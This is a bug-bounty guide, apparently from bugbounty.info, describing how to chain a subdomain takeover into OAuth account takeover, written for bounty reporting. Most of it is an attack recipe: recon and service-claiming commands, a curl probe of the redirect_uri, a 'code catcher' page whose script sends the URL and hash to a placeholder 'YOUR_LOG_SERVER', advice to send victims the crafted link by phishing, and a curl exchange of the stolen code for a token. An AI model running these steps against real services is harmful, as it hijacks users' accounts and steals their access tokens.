

> Source: https://bugbounty.info/Chains/Subdomain-Takeover-to-OAuth

# Subdomain Takeover to OAuth Account Takeover

## Why This Chain Works

A dangling CNAME pointing at an unclaimed GitHub Pages bucket, Heroku app, or Fastly service gets reported as medium. What makes it critical is when that subdomain is registered as a valid `redirect_uri` in the target's OAuth application. The identity provider trusts the subdomain because it belongs to the target's domain namespace. You've claimed it, which means you control the endpoint that receives authorisation codes. Every user who starts an OAuth login becomes a target.

Related: [Subdomain Takeover](../Attack-Surface/Web/Client-Side/Subdomain-Takeover), [OAuth Misconfig to ATO](../Chains/OAuth-Misconfig-to-ATO), [Open Redirect to ATO](../Chains/Open-Redirect-to-ATO)

---

## Attack Flow



---

## Step-by-Step

### 1. Find the Dangling CNAME

During recon, check DNS records for all subdomains you can enumerate:

```bash
# Using dig to check for CNAME pointing at unclaimed service
dig CNAME sub.target.com
 
# If response is: sub.target.com CNAME somename.github.io
# and https://somename.github.io returns a 404 or "There isn't a GitHub Pages site here"
# - that's a candidate
 
# Common services with takeover potential:
# GitHub Pages     - <name>.github.io 404 with "There isn't a..."
# Heroku           - <name>.herokuapp.com "No such app"
# Netlify          - <name>.netlify.app not found
# AWS S3           - <name>.s3.amazonaws.com "NoSuchBucket"
# Fastly           - "Fastly error: unknown domain"
# Zendesk          - <name>.zendesk.com "Help Center Closed"
```

Use tools like `subjack`, `subzy`, or `nuclei -t takeovers/` to automate detection across a large subdomain set.

### 2. Claim the Service

Once you confirm the target is unclaimed, register it:

**GitHub Pages:**

```bash
# Create a repo named: somename (matching the CNAME target)
# Enable GitHub Pages on it
# Serve a simple index.html that logs incoming query parameters
```

**Heroku:**

```bash
heroku create somename
# Then add a custom domain pointing to target subdomain
```

**Netlify:**

```bash
# Create a site, configure custom domain to sub.target.com
```

Confirm takeover by visiting `https://sub.target.com` and seeing your content.

### 3. Check OAuth Registrations

Look at the OAuth login flow on the main application. Check the `redirect_uri` in authorisation requests:

```http
GET /oauth/authorize?
  client_id=CLIENT_ID
  &redirect_uri=https://app.target.com/callback
  &response_type=code
  &scope=openid
```

If the registered callback is on `app.target.com` and you've taken over `static.target.com`, check if the auth server uses prefix-match validation that would accept `https://static.target.com/...`. Also check if the OAuth client has multiple registered redirect URIs - the full list may not be visible in the auth request but might include the takeover candidate.

Attempt the crafted request directly:

```bash
curl -v "https://idp.target.com/authorize?client_id=CLIENT_ID&redirect_uri=https://sub.target.com/catch&response_type=code&scope=openid"
```

If the server does not return a `redirect_uri_mismatch` error, the subdomain is accepted.

### 4. Build the Code Catcher

Deploy a simple page at the takeover subdomain that logs incoming requests:

```html
<!DOCTYPE html>
<html>
<head><title>Catch</title></head>
<body>
<script>
  // Log everything: query params and hash fragment
  var data = {
    search: window.location.search,
    hash: window.location.hash,
    href: window.location.href
  };
  new Image().src = 'https://YOUR_LOG_SERVER/?d=' + encodeURIComponent(JSON.stringify(data));
</script>
</body>
</html>
```

Host this at `/catch` on the takeover subdomain.

### 5. Send the Malicious Link

Build the full authorisation URL with the takeover subdomain as redirect_uri and send it to a victim (phishing, embedded in a post, shared in a public forum):

```text
https://idp.target.com/authorize?
  client_id=CLIENT_ID
  &redirect_uri=https://sub.target.com/catch
  &response_type=code
  &scope=openid+email+profile
```

When the victim authenticates, the code lands at your takeover endpoint.

### 6. Exchange the Code

```bash
curl -X POST https://idp.target.com/oauth/token \
  -d "grant_type=authorization_code" \
  -d "code=STOLEN_CODE" \
  -d "redirect_uri=https://sub.target.com/catch" \
  -d "client_id=CLIENT_ID" \
  -d "client_secret=CLIENT_SECRET"
```

---

## PoC Template for Report

```text
1. DNS: sub.target.com CNAME somename.github.io (verified with dig)
2. somename.github.io returns 404 "There isn't a GitHub Pages site here"
3. Claimed repo: github.com/attacker/somename - GitHub Pages enabled
4. Confirm: https://sub.target.com now serves attacker content
5. OAuth test: GET /authorize?client_id=ID&redirect_uri=https://sub.target.com/catch
   - Server responds 302 to sub.target.com (no mismatch error) - redirect_uri accepted
6. Code catcher deployed at https://sub.target.com/catch
7. Victim (test account) clicks crafted link, authenticates
8. Log server receives: code=AUTH_CODE
9. Token exchange succeeds: {"access_token":"VICTIM_TOKEN"}
10. GET /api/me with victim token confirms identity.
Screenshots of DNS record, takeover confirmation, and token exchange attached.
```

---

## Public Reports

- Subdomain takeover on Snapchat leading to OAuth code interception - [HackerOne #1007680](https://hackerone.com/reports/1007680)
- Subdomain takeover via unclaimed Heroku app used as OAuth redirect_uri - [HackerOne #1475234](https://hackerone.com/reports/1475234)
- Takeover of careers.target subdomain used in OAuth flow - [HackerOne #661751](https://hackerone.com/reports/661751)

---

## Reporting Notes

The report has two distinct parts: the subdomain takeover itself, and the OAuth impact. Show both. Include the DNS evidence (dig output), the claim confirmation (screenshot of your content at the subdomain), the OAuth registration evidence (the auth server accepting your redirect_uri without error), and the code exchange. Programs often assign separate bounties for the takeover and the OAuth escalation if you document them clearly as a chain. Severity sits at critical when the OAuth app grants access to the primary application.
